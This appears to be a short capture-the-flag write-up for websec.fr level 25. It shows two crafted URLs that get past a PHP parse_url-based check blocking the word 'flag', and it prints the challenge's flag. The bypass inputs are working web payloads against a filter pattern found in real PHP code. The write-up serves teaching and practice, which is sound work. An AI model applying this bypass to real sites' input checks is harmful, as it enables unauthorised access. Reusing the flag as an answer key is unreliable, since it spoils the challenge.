

Here we can bypass this code by two ways:
```php
parse_str(parse_url($_SERVER['REQUEST_URI'])['query'], $query);
                  foreach ($query as $k => $v) {
                      if (stripos($v, 'flag') !== false)
                          die('You are not allowed to get the flag, sorry :/');
                  }
```

### Bypassing using making failure
If we'll give this input: `https://websec.fr/level25/index.php?page=flag&:1337`, the `parse_url` will fail [php parse url fails](https://www.php.net/manual/en/function.parse-url.php#96433)

### Bypassing using empty query
If we'll give this input: `https://websec.fr///level25/index.php?page=flag`, the parse url will thing the `['query']` is empty, and then again, bypassing the check.

(here in the picture i gave the `$_SERVER['REQUEST_URI']`)



**Flag:** ***`WEBSEC{How_am_I_supposed_to_parse_uri_when_everything_is_so_broooken}`*** 
